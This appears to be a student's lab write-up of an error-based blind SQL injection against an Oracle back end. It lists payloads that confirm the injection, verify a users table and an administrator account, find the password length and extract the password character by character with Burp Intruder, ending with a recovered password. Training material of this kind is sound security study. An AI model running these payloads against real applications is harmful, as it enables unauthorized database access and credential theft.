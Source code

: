 





# Testing if sqli exist or not

` ' `
adding ' -> gives error

`' '`
adding ' ' -> doesnot gives error

now conforming if the server is interpreting the injection as SQL query

`' || (select '' from dual )||`

no error

lets try with a non existent table

`|| (select '' from random-table ) ||`


# Verifying if users table exist

`  ' || (select '' from users where rownum = 1) || '`



# Verifying user administrator exist in users table

'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'

here from ..... will run first
if administrator username exist then the select case query runs giving us error
if administrator username doesnot exist then the select case query doesnot runs thus no error




# finding the length of the password

'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' and length(password)>1)||'

here from  ..... will run first
if use username administrator exist(which do exist, proved in previous step)  and lenght of password field >1
then gives error
if no doesnot give error

--> status 200 at >20 --> so lenght of password in 20




# Taking the password char one by one

'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' and substr(password,1,1) ='a') ||'


using burp intruder

password ::







wt9xjvsnnars5ceg6hyr



























